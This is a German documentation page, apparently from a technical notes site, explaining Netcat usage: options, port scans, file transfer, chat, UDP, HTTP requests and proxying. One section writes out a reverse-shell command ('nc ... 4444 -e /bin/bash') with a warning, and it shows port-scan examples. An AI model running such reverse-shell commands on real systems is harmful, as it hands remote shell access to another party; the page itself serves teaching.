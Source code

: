 ```yaml
---
title: Netcat
layout: default
nav_order: 6
---
```


#### Table of Contents
{: .no_toc .text-delta }

- 1
- 2
- 3
{:toc}

<script type="text/javascript">
$('#toc').toc({ headers: 'h1, h2, h3' });
</script>

# Netcat

Netcat ist ein vielseitiges Tool zur Arbeit mit TCP- und UDP-Verbindungen. Es wird oft als "Schweizer Taschenmesser" für Netzwerke bezeichnet und eignet sich für Port-Scans, Datenübertragung, Debugging und einfache Server/Client-Kommunikation.

[Netcat Manpage](https://man7.org/linux/man-pages/man1/nc.1.html)

#### **Grundlegende Syntax**
```
nc [Optionen] <Ziel> <Port>
```

---

### **Häufig verwendete Optionen**

- **`-l`** → Lauscht auf eingehenden Verbindungen (Listen-Modus).  
- **`-p`** → Gibt den Port an, auf dem Netcat lauschen soll.  
- **`-u`** → Nutzt UDP anstelle von TCP.  
- **`-v`** → Zeigt detaillierte Verbindungsinformationen an (verbose).  
- **`-z`** → "Zero-I/O"-Modus, häufig für Port-Scans verwendet.  
- **`-w <Sekunden>`** → Timeout für Verbindungen festlegen.  
- **`-e <Programm>`** → Führt ein Programm aus, wenn eine Verbindung hergestellt wird (z. B. Shell). **(Achtung: Kann von Angreifern ausgenutzt werden.)**

---

### **Anwendungsfälle**

#### **1. Port-Scan**
```bash
nc -zv <IP-Adresse> <Port-Bereich>
```
Beispiel:
```bash
nc -zv 192.168.1.1 20-80
```
- **`-z`** → Sendet keine Daten, prüft nur, ob der Port offen ist.
- **`-v`** → Gibt detaillierte Ergebnisse aus.

#### **2. Einfache Verbindung zu einem Server**
```bash
nc <IP-Adresse> <Port>
```
Beispiel:
```bash
nc 192.168.1.1 80
```
- Baut eine Verbindung zu einem HTTP-Server auf. Eingabe von HTTP-Befehlen wie `GET /` möglich.

#### **3. Lokalen TCP-Server starten**
```bash
nc -l -p <Port>
```
Beispiel:
```bash
nc -l -p 1234
```
- Lauscht auf Port 1234 für eingehende Verbindungen.

#### **4. Dateiübertragung**
- **Datei senden:**
  ```bash
  nc <Ziel-IP> <Port> < datei.txt
  ```
- **Datei empfangen:**
  ```bash
  nc -l -p <Port> > empfangene_datei.txt
  ```

Beispiel:
- Auf Server (empfangen):
  ```bash
  nc -l -p 1234 > empfangene_datei.txt
  ```
- Auf Client (senden):
  ```bash
  nc 192.168.1.1 1234 < datei.txt
  ```

#### **5. Chat-Verbindung**
- **Server:**
  ```bash
  nc -l -p <Port>
  ```
- **Client:**
  ```bash
  nc <Ziel-IP> <Port>
  ```
Beispiel:
- Server:
  ```bash
  nc -l -p 1234
  ```
- Client:
  ```bash
  nc 192.168.1.1 1234
  ```

#### **6. Reverse Shell (Vorsicht!)**
- **Auf Server lauschen:**
  ```bash
  nc -l -p <Port>
  ```
- **Shell senden (auf Ziel):**
  ```bash
  nc <Ziel-IP> <Port> -e /bin/bash
  ```
Beispiel:
- Server:
  ```bash
  nc -l -p 4444
  ```
- Client:
  ```bash
  nc 192.168.1.1 4444 -e /bin/bash
  ```

**Achtung:** Reverse Shells können ein großes Sicherheitsrisiko darstellen. Nutzung nur in sicheren und kontrollierten Umgebungen.

---

### **Erweiterte Nutzung**

#### **1. UDP-Server und Client**
- **UDP-Server starten:**
  ```bash
  nc -u -l -p <Port>
  ```
- **UDP-Client verbinden:**
  ```bash
  nc -u <Ziel-IP> <Port>
  ```

#### **2. HTTP-Anfragen senden**
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc <IP-Adresse> 80
```
Beispiel:
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc 93.184.216.34 80
```

#### **3. Verbindung mit Timeout**
```bash
nc -w <Sekunden> <Ziel-IP> <Port>
```
Beispiel:
```bash
nc -w 5 192.168.1.1 80
```
- Beendet die Verbindung, wenn nach 5 Sekunden keine Antwort erfolgt.

#### **4. Proxy-Datenverkehr analysieren**
Netcat kann genutzt werden, um zwischen zwei Hosts als Proxy zu fungieren:
```bash
mkfifo /tmp/proxy
nc -l -p 8080 < /tmp/proxy | nc <Ziel-IP> 80 > /tmp/proxy
```

---

### **Fehlerbehebung und Tipps**

- **Problem:** Verbindung schlägt fehl.  
  **Lösung:** Prüfe Firewall-Einstellungen und stelle sicher, dass der Port auf beiden Seiten offen ist.

- **Problem:** Keine Ausgabe bei `-zv`.  
  **Lösung:** Teste explizit mit verschiedenen Protokollen (`-u` für UDP oder ohne `-u` für TCP).

- **Problem:** Datenübertragung zu langsam.  
  **Lösung:** Nutze spezialisierte Tools wie SCP oder rsync für große Dateien.

---

### **Sicherheitswarnung**

Netcat kann bei unsachgemäßer Verwendung Sicherheitsrisiken darstellen, insbesondere durch die Nutzung der Option `-e` (Remote Execution). Stelle sicher, dass das Tool nur in vertrauenswürdigen Umgebungen und mit ausreichender Zugriffskontrolle eingesetzt wird.
